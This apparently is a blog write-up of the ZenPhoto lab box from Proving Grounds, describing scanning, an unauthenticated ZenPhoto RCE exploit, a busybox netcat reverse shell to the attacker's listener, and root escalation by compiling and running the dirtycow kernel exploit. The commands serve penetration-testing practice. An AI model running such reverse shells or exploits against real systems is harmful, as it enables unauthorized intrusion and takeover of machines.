 ```yaml
---
layout: writeup
title: ZenPhoto - Proving Grounds
date: 2024-07-26 13:32:20 +0300
description: A Writeup of the ZenPhoto Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, kernel]
---
```


![ZenPhoto1.png](/assets/images/ZenPhoto/ZenPhoto1.png){: .center-aligned width="600px"}

Here's a writeup for ZenPhoto, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). get started with an nmap scan to reveal:
```
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```
I head to the browser to check port 80, and I see this. 

![ZenPhoto2.png](/assets/images/ZenPhoto/ZenPhoto2.png){: .center-aligned width="600px"}

Not super helpful, so I kick off a directory scan which points toward a /test directory.

![ZenPhoto3.png](/assets/images/ZenPhoto/ZenPhoto3.png){: .center-aligned width="600px"}

Powered by ZenPhoto? You don't say. Viewing the source of this page reveals a version number that might help us to find an exploit.

![ZenPhoto4.png](/assets/images/ZenPhoto/ZenPhoto4.png){: .center-aligned width="600px"}

It shows a few other directories like `/test/zp-core/images/reset_icon.png` which leads us to the admin page of `192.168.245.41/test/zp-core/admin.php` when we try to few all images, but I search for the version and exploit to get started. Unfortunately most of them seem to require authentication, but there is one [RCE Exploit](https://www.exploit-db.com/exploits/18083) that does not. We save that to our directory as 18083.php (like it's titled in searchsploit) and run `php 18083.php 192.168.245.41 /test/`. 

![ZenPhoto5.png](/assets/images/ZenPhoto/ZenPhoto5.png){: .center-aligned width="600px"}

That get us a limited shell, so I decided to use `busybox nc 192.168.45.183 4444 -e /bin/bash` to get something more stable. I catch that shell with penelope, and it's time to enumerate. We can't run sudo, and nothing really sticks out from lse or linpeas beyond kernel exploits, which we usually avoid in labs as they are often not the intended path. We do have `gcc` on this machine though, so we can compile a kernel exploit if we need to. 

And after enumerating for a while I did just that. I checked for cron jobs and running processes as well as a number of files which stuck out as potentially containing credentials, but I couldn't find anything that actually did, plus they would have to come for the root user directly. So ultimately I downloaded [dirtycow](https://github.com/firefart/dirtycow) and transferred it to the target machine. From then I simply followed the instructions (`gcc -pthread dirty.c -o dirty -lcrypt`) and ran the binary (`./dirty`) to create a user called `firefart` with the password I chose (`party1`). After that I simply used `su firefart` and entered my password.

![ZenPhoto6.png](/assets/images/ZenPhoto/ZenPhoto6.png){: .center-aligned width="600px"}

And we're done. Given that the dirtycow exploit is older than the lab machine, maybe it was the intended exploit. Either way, I need to run to the grocery store so I can start dinner, and I'll have to look for alternatives afterward. 

Lessons learned: Not a lot during this box. We use a powerful RCE exploit for one service which allows us to get a shell, and then we use a kernel exploit which we normally avoid during labs like this. Most of the time was spent looking for clues that weren't there on the target (or looking for alternatives to the initial exploit because I didn't realize I could run it from my own command line even though it was a .php file). Overal pretty simple. 

Post-Box Research: Most of the writeups I read actually were some kind of kernel exploits, so while I had options, it does seem like that was the intended path. While I used dirtycow, I also saw PwnKit and [this rds exploit](https://github.com/lucyoa/kernel-exploits/tree/master/rds). 
